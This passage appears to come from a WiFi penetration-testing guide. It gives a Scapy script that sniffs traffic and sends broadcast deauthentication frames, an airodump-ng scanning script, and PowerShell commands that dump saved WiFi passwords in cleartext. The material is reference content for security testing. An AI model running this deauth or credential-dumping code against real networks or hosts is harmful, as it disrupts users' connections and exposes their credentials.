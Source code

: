 ## Custom Tools and Scripts

### Python WiFi Libraries

#### Scapy for WiFi

```python
from scapy.all import *

# Monitor WiFi traffic
def packet_handler(pkt):
    if pkt.haslayer(Dot11):
        print(f"WiFi packet: {pkt.summary()}")

sniff(iface="wlan0mon", prn=packet_handler)

# Send deauth frames
dot11 = Dot11(addr1="ff:ff:ff:ff:ff:ff",
              addr2=ap_mac,
              addr3=ap_mac)
deauth = Dot11Deauth(reason=7)
sendp(RadioTap()/dot11/deauth, iface="wlan0mon")
```

#### WiFi Scanner Script

```bash
#!/bin/bash
# wifi_scanner.sh
INTERFACE="wlan0mon"
OUTPUT="wifi_scan_$(date +%Y%m%d_%H%M%S)"

echo "Starting WiFi scan on $INTERFACE"
sudo timeout 300 airodump-ng $INTERFACE -w $OUTPUT --write-interval 1

echo "Processing results..."
cat ${OUTPUT}-01.csv | grep -v "^$" | sort -t',' -k14 -nr > sorted_networks.csv
```

### PowerShell WiFi Tools (Windows)

```powershell
# Get WiFi profiles
netsh wlan show profiles

# Export WiFi passwords
$profiles = netsh wlan show profiles | Select-String "All User Profile"
foreach($profile in $profiles) {
    $profileName = ($profile -split ":")[1].Trim()
    netsh wlan show profile name="$profileName" key=clear
}

# WiFi network discovery
netsh wlan show interface
```
